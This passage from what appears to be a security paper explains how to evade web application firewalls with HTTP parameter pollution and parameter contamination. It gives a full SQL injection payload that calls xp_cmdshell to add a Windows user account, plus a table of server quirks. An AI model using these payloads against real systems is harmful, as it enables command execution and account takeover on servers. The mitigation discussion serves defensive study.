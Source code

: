 		Now we use HPP+Inline comment to bypass it.

		Bypassed : http://victim.com/news.aspx?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ net user lucifer UrWaFisShiT /*&id=1*/ --

		
		Analyzing, WAF's interpretation is

		id=1; /*
		id=1*/ EXEC /*
		id=1*/ master..xp_cmdshell /*
		id=1*/ net user zeq3ul UrWaFisShiT /*
		id=1*/ --
		
		ASP/ASP.NET's interpretation is
		id=1; /*,1*/ EXEC /*,1*/ master..xp_cmdshell /*,1*/ net user zeq3ul UrWaFisShiT /*,1*/ --
		id=1; EXEC master..xp_cmdshell net user zeq3ul UrWaFisShiT --
		

		The easiest mitigation to this attack would be for the WAF to disallow multiple instances of the same parameter in a single HTTP request. 
	This would prevent all variations of this attack.
		However this might not be possible in all cases as some applications might have a legitimate need for multiple duplicate parameters. 
	And they might be designed to send and accept multiple HTTP parameters of the same name in the same request.To protect these applications the WAF 
	should also interpret the HTTP request in the same way the web application would.

		
	++++++++++++++++++++++++++++++++++++++++
	 [0x03b] - HTTP Parameter Contamination
	++++++++++++++++++++++++++++++++++++++++

		HTTP Parameter Contamination (HPC) original idea comes from the innovative approach found in HPP research by 
	exploring deeper and exploiting strange behaviors in Web Server components, Web Applications and Browsers as a result of query string
	parameter contamination with reserved or non expects characters. 
	
	Some facts:
     	- The term Query String is commonly used to refer to the part between the  "?" and the end of the URI
	- As defined in the RFC 3986, it is a series of field-value pairs
	- Pairs are separated by "&" or ";"
	- RFC 2396 defines two classes of characters:
		Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()
		Reserved  : ; / ? : @ & = + $ ,
		Unwise    : { } | \ ^ [ ] ` 

		Different web servers have different logic for processing special created requests. There are more web server, backend platform and special character combinations,
	but we will stop here this time.

	Query string and Web server response (Example)
	
	+-----------------------------------------------------------+
	| Query String	  |    Web Servers response / GET values    |
	+-----------------------------------------------------------+
	| 		  | Apache/2.2.16, PHP/5.3.3 | IIS6/ASP	    |
	+-----------------------------------------------------------+
	| ?test[1=2	  | test_1=2	 	     | test[1=2	    |
	| ?test=%  	  | test=%		     | test=	    |
	| ?test%00=1	  | test=1	       	     | test=1	    |
	| ?test=1%001	  | NULL		     | test=1	    |
	| ?test+d=1+2	  | test_d=1 2		     | test d=1 2   |